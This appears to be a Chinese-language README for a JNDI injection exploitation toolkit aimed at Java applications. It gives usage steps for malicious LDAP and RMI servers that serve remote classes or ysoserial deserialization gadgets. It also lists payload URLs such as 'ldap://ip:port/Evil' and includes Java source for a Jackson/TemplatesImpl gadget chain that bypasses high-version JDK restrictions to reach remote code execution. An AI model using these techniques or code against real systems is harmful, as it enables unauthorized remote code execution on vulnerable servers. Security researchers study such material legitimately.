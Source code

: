 # JNDI 注入利用方法

高版本JDK在RMI和LDAP的trustURLCodebase都做了限制，从默认允许远程加载ObjectFactory变成了不允许。RMI是在6u132, 7u122, 8u113版本开始做了限制，LDAP是 11.0.1, 8u191, 7u201, 6u211版本开始做了限制。
所以修复后的JDK版本无法在不修改trustURLCodebase的情况下通过远程加载ObjectFactory类的方式去执行Java代码。
虽然无法再使用远程加载类，但绕过限制的方法也随之出现。目前公开常用的利用方法是通过Tomcat的org.apache.naming.factory.BeanFactory 工厂类去调用 javax.el.ELProcessor#eval方法或groovy.lang.GroovyShell#evaluate方法，还有通过LDAP的 javaSerializedData反序列化gadget。

# HackerLDAPRefServer
JNDI注入利用服务，LDAP server利用方法。
在jdk低于Oracle JDK 11.0.1、8u191、7u201、6u211时，可通过该方法远程加载Object Factory类，从而加载恶意类利用。

使用方法：
低版本jdk中直接启动该server,然后在victim发送payload`ldap://ip:port/Evil`来连接就行。

# HackerLDAPSerServer
将 gadget生成的payload通过LDAP的 javaSerializedData直接发给来连接的客户端，让客户端来完成反序列化的动作，这种方式将JNDI注入转化成了本地的反序列化问题。

使用方式：
1. 按下面修改server端需要发送的反序列化字符串:
将`e.addAttribute("javaSerializedData",Base64.decode("payload")`中的payload使用ysoserial工具生成然后进行替换,如
`java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections6 'calc'|base64`
2. 启动HackerLDAPSerServer
3. 发送payload: `ldap://ip:port/Evil`

# HackerRMIRefServer
tomcat<8.5.78的版本中可以使用 org.apache.naming.factory.BeanFactory工厂类去调用 javax.el.ELProcessor#eval方法或groovy.lang.GroovyShell#evaluate方法。需要同时存在Grovy、SnakeYaml、ELProcessor。

使用方法:
1. 修改Constants中的cmd为要执行的命令
2. 选择合适的payload： 选择yaml时需要开启httpserver.bat
```shell
rmi://ip:port/execByEL
rmi://ip:port/execByGroovyClassLoader
rmi://ip:port/execByGroovyShell
rmi://ip:port/execByYaml
```

# tomcat高版本BeanFactory的forceString不可用时的替代方案
使用ldap-->原生反序列化-->jackson-->RCE:
```java
@Dependencies({"jackson:jackson:2.13.4"})
@Authors({ Authors.PWNTESTER })
public class Jackson extends PayloadRunner implements ObjectPayload<BadAttributeValueExpException> {

    public BadAttributeValueExpException getObject(final String command) throws Exception {
        final Object templates = Gadgets.createTemplatesImpl(command);
        // inert chain for setup
        POJONode pojoNode = new POJONode(templates);
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, pojoNode);
        return val;
    }

    public static void main(final String[] args) throws Exception {
        PayloadRunner.run(Jackson.class, args);
        String command = "calc";
        final Object templates = Gadgets.createTemplatesImpl(command);
        // inert chain for setup
        POJONode pojoNode = new POJONode(templates);
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        // 原生反序列化+jackson中，由于BaseJsonNode中存在writeReplace方法而直接触发到serialize，从而无法正常的进行序列化，通过java反序列化中的缓存机制，找到POJONode对应的ObjectStreamClass，
//        通过反射将其writeReplaceMethod变量设为null，这样在序列化时就不会调用到BaseJsonNode的writeReplace方法，从而可以正常构造出数据，并且不会影响反序列化。
        ObjectStreamClass objectStreamClass = ObjectStreamClass.lookup(POJONode.class);
        Field field = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        field.setAccessible(true);
        field.set(objectStreamClass,null);

        new ObjectOutputStream(baos).writeObject(pojoNode);
        baos.flush();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        new ObjectInputStream(bais).readObject();
    }
}
```

# 参考
* [探索高版本JDK下JNDI 漏洞的利用方法](https://tttang.com/archive/1405/)
* [如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/)
